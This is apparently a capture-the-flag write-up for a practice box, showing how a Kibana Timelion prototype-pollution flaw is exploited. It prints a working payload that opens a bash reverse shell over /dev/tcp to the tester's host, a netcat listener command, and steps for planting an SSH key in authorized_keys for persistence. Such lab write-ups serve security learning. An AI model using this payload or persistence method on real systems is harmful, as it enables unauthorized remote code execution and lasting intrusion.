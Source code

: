 <ins>To get the exploit running do the following steps:</ins>
  
- Open a listener with `rlwrap nc -lvnp 6666`
- Open Kibana
- Past one of the following payload into the timelion visualizer
- Click run
- On the left panel click on Canvas
- Your reverse shell should pop ! :)
  
  
<ins>The following line get my reverse shell running:</ins>
  
```sh
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/<yourip>/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
  
-> The reverse shell should connect and we could start the user enumeration.
  

---
  
  
# <ins>System enumeration</ins>  
  

The get a stable connection i will get a ssh connection running.
  
@ local: 
- generate a ssh keygen with `ssh-keygen` and check with enter.
- `chmod 600 id_rsa`
- `cat id_rsa.pub`
  

@ kiba:

´´´sh
cd /home/kibana
mkdir .ssh
cd .ssh
echo "id_rsa.pub output" > authorized_keys```
  
@ local:
`ssh -i id_rsa kiba@10.10.10.10`

<ins>Kibana enumeration (user.txt):</ins>
  
Find user.txt. Go to kibana's home folder an cat the user.txt.
If you don't find the user.txt use `locate user.txt`.
  
  
###
**Task 1.4 solved**
###  
  

---
   
  